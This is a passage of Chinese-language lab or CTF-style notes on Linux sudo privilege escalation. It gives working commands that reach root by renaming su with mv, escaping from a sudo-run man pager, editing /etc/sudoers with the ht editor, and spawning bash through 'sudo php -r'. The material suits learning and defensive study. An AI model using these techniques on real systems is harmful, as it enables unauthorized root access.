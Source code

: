 ```bash
sudo su # 提权
sudo /bin/bash # 提权
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1672908519376-54d4be53-b7d4-4fc5-b8ab-35e82588d900.png#averageHue=%235c7376&clientId=u2b063ea2-08e4-4&from=paste&height=83&id=ufdb01c94&originHeight=104&originWidth=424&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16100&status=done&style=none&taskId=u4cd1d725-093c-4ed3-bc30-f70d24002d0&title=&width=339.2)
## 情景四
**mv 提权**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1675513473397-c8a10845-5f65-411a-b8f1-de122f9f277e.png#averageHue=%23555d67&clientId=u460a1ae2-7367-4&from=paste&height=213&id=u927166f0&originHeight=266&originWidth=808&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79383&status=done&style=none&taskId=u12e66aeb-32c0-4d08-b8ef-733893dbdd8&title=&width=646.4)
**意思是该用户可用**`**sudo**`**命令，无需密码就能以root身份执行：**`**mv**`**、**`**tar**`**、**`**chgrp**`**、**`**chown**`
因为 `mv`可以给文件重命名，通过给`su`命令重命名来提权。
```bash
sudo mv /bin/chown /bin/ch_own # chown 改成 ch_own
sudo mv /bin/su /bin/chown # su 改成 chown

sudo chown
# 实际上是执行 sudo su 命令 提权
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1675513985944-2d72e43d-ce99-492a-a15a-ce47e8f1edd0.png#averageHue=%23535860&clientId=u460a1ae2-7367-4&from=paste&height=196&id=u026feb88&originHeight=245&originWidth=633&originalType=binary&ratio=1&rotation=0&showTitle=false&size=72189&status=done&style=none&taskId=u7fadf481-05f7-4a78-bd69-783c31a73b0&title=&width=506.4)
## 情景五
**man 提权**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677512491476-5ccc741c-7768-48a5-a4e6-90c82950b841.png#averageHue=%23252830&clientId=u7492d3bb-8557-4&from=paste&height=202&id=u3ec8ea84&originHeight=253&originWidth=956&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=51512&status=done&style=none&taskId=ued1034c4-5e58-40e7-9622-8179f7d09af&title=&width=764.8)
直接sudo 执行该程序
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677512523202-8cb51ca1-9e11-4d56-883e-12f413fcbcd4.png#averageHue=%23272b34&clientId=u7492d3bb-8557-4&from=paste&height=174&id=ue1488e2e&originHeight=218&originWidth=610&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=34116&status=done&style=none&taskId=u0ba41a3b-0195-45e8-92c3-e456b65b905&title=&width=488)
发现第三个选项可以接 [command] linux 命令
```bash
sudo /home/anansi/bin/anansi_util manual whoami
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677513743039-a2d9544e-83f2-46e9-b46c-49e97ac08d0a.png#averageHue=%231f2128&clientId=u7492d3bb-8557-4&from=paste&height=475&id=ubd086c7e&originHeight=594&originWidth=936&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=63849&status=done&style=none&taskId=u7c2b1ed0-c90a-445a-a349-6b230c11835&title=&width=748.8)
发现这是`**man**`指令的界面，因为**man**是用**sudo**提权的，所以可以用**man**生成的shell提权
```bash
!/bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677513919819-23d41a0f-40ff-4aca-804b-16a0392b6307.png#averageHue=%2321252f&clientId=u7492d3bb-8557-4&from=paste&height=145&id=ufabcceb4&originHeight=181&originWidth=1012&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24922&status=done&style=none&taskId=uf72fa82d-bd38-4411-97ff-38f4d6baa3c&title=&width=809.6)
**提权成功！！！**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677513956537-133ae391-a071-4933-8316-261521064796.png#averageHue=%2322252e&clientId=u7492d3bb-8557-4&from=paste&height=238&id=u4cdab08d&originHeight=297&originWidth=458&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27484&status=done&style=none&taskId=u2cd452ce-48ad-450f-af83-795723b6cc9&title=&width=366.4)
## 情景六： ht 图形化文本编辑器提权
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677921467495-7b1a5f4e-86ec-49f0-8cc6-d22b4613f1f7.png#averageHue=%23434852&clientId=u09d4793b-913e-4&from=paste&height=156&id=uc5acdb68&originHeight=195&originWidth=898&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=57924&status=done&style=none&taskId=u1b0a6647-f1e4-4262-9c95-984a8c785d8&title=&width=718.4)
我们可以`**sudo ht**`以root身份无密码使用**ht**命令
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677921603862-8be81c56-4ae0-47c2-b75c-c69739539728.png#averageHue=%2354585f&clientId=u09d4793b-913e-4&from=paste&height=157&id=u9ec8bcf2&originHeight=196&originWidth=1401&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=43859&status=done&style=none&taskId=u35866f43-dcfb-4559-be63-f92f31e8ff7&title=&width=1120.8)
这个文件可以看出，**ht**是个文本编辑器，所以可以修改**/etc/sudoers**提权！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677921698864-14005709-3a78-4425-8bbd-1a1ca686fbc9.png#averageHue=%233a7ae7&clientId=u09d4793b-913e-4&from=paste&height=374&id=uba74dac8&originHeight=468&originWidth=808&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=37591&status=done&style=none&taskId=u5730abcc-b4f8-4032-8345-ba4bc9c291e&title=&width=646.4)
**ht**通过 `Alt + 首字母`进行选中选项，文本删除操作要把光标移到目标文本首字母再开始删文本。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677921858846-aa307ca1-3952-4fee-ab32-b445b059a8aa.png#averageHue=%233e80f0&clientId=u09d4793b-913e-4&from=paste&height=194&id=u3e59b997&originHeight=242&originWidth=615&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25088&status=done&style=none&taskId=u91da14b8-d17a-4e42-a626-eecdd7d62ad&title=&width=492)
修改当前用户的**sudo**权限，保存退出
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1677921945591-2f0a6a58-a8b8-4bb1-abda-35b72421b206.png#averageHue=%23565c67&clientId=u09d4793b-913e-4&from=paste&height=137&id=u5a888924&originHeight=171&originWidth=753&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29307&status=done&style=none&taskId=u43d095ad-8bd8-4944-a110-88e405db08b&title=&width=602.4)
提权成功！！！
## 情景七 - php 提权
很常用，也有很多变体，**exec、passthru **等等
```bash
sudo php -r "system('/bin/bash');"

# -r，request
```